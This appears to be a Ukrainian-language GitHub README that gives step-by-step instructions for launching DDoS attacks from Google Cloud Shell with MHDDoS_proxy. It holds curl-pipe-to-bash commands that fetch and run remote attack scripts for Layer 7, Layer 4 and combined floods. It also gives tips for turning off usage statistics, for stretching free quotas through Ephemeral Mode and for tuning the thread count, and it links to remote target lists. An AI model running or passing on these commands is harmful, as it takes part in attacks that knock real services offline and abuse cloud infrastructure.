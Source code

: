## DDoS whith Google Cloud Shell (MHDDoS_proxy)
#### Script for durable cloudshell session. Test
#
### Використовуємо https://shell.cloud.google.com/?fromcloudshell=true&show=terminal

### Команди для запуску атаки
**по Layer7:**
```
curl -l https://raw.githubusercontent.com/Operation-Stop-russia/Gcloudshell_ddos/main/Start_L7m.sh | bash
```
**по Layer4:**
```
curl -l https://raw.githubusercontent.com/Operation-Stop-russia/Gcloudshell_ddos/main/Start_L4.sh | bash
```
**Подвійна атака (Layer7+Layer4) розділений термінал (tmux):**
```
curl -l https://raw.githubusercontent.com/Operation-Stop-russia/Gcloudshell_ddos/main/Start_dualShell.sh | bash
```
У [Google Cloud Shell](https://shell.cloud.google.com/?fromcloudshell=true&show=terminal) в налаштуваннях бажано **вимкнути** статистику використання.    
Дозволяється запускати до 4 терміналів на 1 акаунт але доцільніше використовувати 1-2 термінали на акаунт.    
Також враховуйте, що встановлені тижневі квоти на використання, 1 акаунт - 50 годин у звичайному режимі та 50 годин у ефемерному режимі (*до закінчення квоти у звичайному режимі - вмикаємо Ephemeral Mode (ставимо - "Завжди") та отримуємо ще 50 годин використання на поточний тиждень*)    
#
:white_check_mark: **Автоперезапуск скрипту кожні 15 хв, метод атаки додається зі списку цілей, параметр -t за замовчуванням 1000.    
За потреби параметр -t можна змінити додавши до команди** ` -s -- "кількість"`, **наприклад:**
```
curl -l https://raw.githubusercontent.com/Operation-Stop-russia/Gcloudshell_ddos/main/Start_L7m.sh | bash -s -- 2000
```
#
#### Списки з цілями

https://raw.githubusercontent.com/Operation-Stop-russia/targets_lists/main/L7m.lst

https://raw.githubusercontent.com/Operation-Stop-russia/targets_lists/main/L4t.lst

#
[IT ARMY of Ukraine](https://t.me/itarmyofukraine2022)
